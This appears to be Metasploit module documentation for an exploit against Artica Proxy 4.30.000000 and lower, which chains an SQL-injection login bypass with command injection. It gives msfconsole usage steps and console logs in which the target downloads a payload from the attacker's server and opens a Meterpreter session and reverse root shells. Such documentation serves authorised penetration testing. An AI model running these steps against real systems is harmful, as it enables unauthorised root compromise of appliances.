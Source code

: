 ## Vulnerable Application

### Introduction

This module exploits two vulnerabilities on Artica Proxy (version 4.30.000000 and lower),
an authentication bypass and an authenticated remote code execution, the authentication bypass
is due to an SQL injection vulnerability present in fw.login.php.

Because the application runs in virtual appliance, successful exploitation yields code execution
as root on the target system.

## Verification Steps

1. Start `msfconsole`
2. Do: `use exploit/linux/http/artica_proxy_auth_bypass_service_cmds_peform_command_injection`
3. Do: `set RHOSTS [RHOSTS]`
4. Do: `check`
5. Verify if `check` detects vulnerable hosts as it should
6. Do: `exploit`
7. Verify if the payload was successfully executed on the target (that you get a session)

## Options

### PHPSESSID

The session cookie, if you have one.
If not set, the module will attempt to bypass authentication using the authentication bypass vulnerability.

## Scenarios

### Artica Proxy 4.26, 4.30.000000

#### Using a dropper / getting a native meterpreter shell (TARGET being Linux Dropper)

```
msf5 exploit(linux/http/artica_proxy_auth_bypass_service_cmds_peform_command_injection) > exploit 

[*] Started reverse TCP handler on 192.168.1.222:4444 
[*] Attempting to bypass authentication via CVE-2020-17506 (SQL injection)
[+] Session cookie : 9a171f6964f8b35f53abf652d2b28748
[*] Using URL: http://0.0.0.0:8080/f0Y1VFKK4nAW
[*] Local IP: http://192.168.1.222:8080/f0Y1VFKK4nAW
[*] Attempting to gain RCE via CVE-2020-17505
[*] Client 192.168.1.223 (Wget/1.20.1 (linux-gnu)) requested /f0Y1VFKK4nAW
[*] Sending payload to 192.168.1.223 (Wget/1.20.1 (linux-gnu))
[*] Meterpreter session 1 opened (192.168.1.222:4444 -> 192.168.1.223:48330) at 2020-08-30 16:45:58 +0200
[*] Command Stager progress - 100.00% done (118/118 bytes)
[*] Server stopped.

meterpreter > sysinfo
Computer     : www.red0xff.co
OS           : Debian 10.2 (Linux 4.19.0-6-amd64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > shell
Process 2724 created.
Channel 1 created.
id
uid=0(root) gid=0(root) groups=0(root)
```

#### Cmd payload : `cmd/unix/reverse_perl`

```
msf5 exploit(linux/http/artica_proxy_auth_bypass_service_cmds_peform_command_injection) > 
msf5 exploit(linux/http/artica_proxy_auth_bypass_service_cmds_peform_command_injection) > exploit 

[*] Started reverse TCP handler on 192.168.1.222:4444 
[*] Attempting to bypass authentication via CVE-2020-17506 (SQL injection)
[+] Session cookie : 1049da6bfa8e6217072f810a9b62ff7b
[*] Attempting to gain RCE via CVE-2020-17505
[*] Command shell session 7 opened (192.168.1.222:4444 -> 192.168.1.223:48466) at 2020-08-30 16:50:15 +0200

id
uid=0(root) gid=0(root) groups=0(root)
whoami
root
```
